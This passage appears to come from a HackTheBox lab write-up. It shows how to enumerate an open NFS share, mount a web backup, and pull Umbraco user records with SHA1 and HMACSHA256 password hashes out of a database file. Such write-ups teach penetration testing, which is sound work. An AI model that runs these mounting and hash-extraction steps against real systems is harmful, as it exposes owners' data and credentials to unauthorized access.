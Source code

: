 ### NSF - TCP 2049

NFS is super uncommon on HTB machines, and thus, its being open is definitely worth some attention. `showmount` will give the paths that can be mounted and who can mount them. In this case, it’s named `site_backups` and everyone can access:

```

root@kali# showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)

```

I’ll mount this to `/mnt` on my host:

```

root@kali# mount -t nfs 10.10.10.180:/site_backups /mnt/

```

Now I have access to what looks like a backup of the web directory:

```

root@kali:/mnt# ls
App_Browsers  App_Data  App_Plugins  aspnet_client  bin  Config  css  default.aspx  Global.asax  Media  scripts  Umbraco  Umbraco_Client  Views  Web.config    

```

Poking around a bit, there’s an `.sdf` file in `/App_Data` called `Umbraco.sdf`. `.sdf` files are standard database format files. I don’t know a great way to parse these files, but `strings` shows some interesting results right at the top of the file:

```

root@kali:/mnt/App_Data# strings Umbraco.sdf | head
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
@{pv
qpkaj

```
